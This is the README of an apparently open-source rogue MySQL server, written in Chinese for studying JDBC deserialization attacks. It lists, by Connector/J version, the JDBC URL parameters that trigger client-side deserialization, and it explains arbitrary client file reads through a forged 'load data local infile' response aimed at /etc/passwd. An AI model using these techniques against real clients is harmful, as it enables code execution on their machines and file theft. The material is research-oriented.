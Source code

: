 # fmysql

一个基于 [netty-mysql-codec](https://github.com/mheath/netty-mysql-codec) 开发的恶意 MySQL 服务器。出于学习 [https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf](https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf) 的内容而编写。


> 在 JDBC URL 可控的条件下攻击 MySQL JDBC Driver。

## 反序列化

Poc 代码位于 `test/java/com/github/trganda/dser` 下，使用的 Gadget 为 [CommonsCollections5](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java)。

### `ServerStatusDiffInterceptor` 参数触发

#### 8.x

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
```

#### 6.x

属性名不同，变更为 `statementInterceptors`

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
```

#### 5.1.11 - 5.x

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor
```

> `5.1.10` 及以下的 `5.1.X` 版本：同上，但是需要连接后执行查询。

#### 5.0.x

没有 `ServerStatusDiffInterceptor`，不可利用。

### `detectCustomCollations` 触发：

#### 5.1.41 - 5.1.x

不可用

#### 5.1.29 - 5.1.40

```java
jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true
```

#### 5.1.19 - 5.1.28

```
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true
```

#### 5.1.x - 5.1.18

不可用

#### 5.0.x

不可用

## 任意文件读取

Poc 代码位于 `test/java/com/github/trganda/file` 下。

MySQL 支持 `load data local infile` 语句读取文件发送至服务端。

```sql
load data local infile "/etc/passwd" into table foo FIELDS TERMINATED BY '\n';
```

通信流程如下，可以通过伪造响应内容 `0xFB + 需要读取的文件路径`，让客户端读取任意文件

<img width="438" alt="image" src="https://github.com/trganda/fmysql/assets/62204882/c8c5500f-a731-4640-b85e-e1147fe354d6">


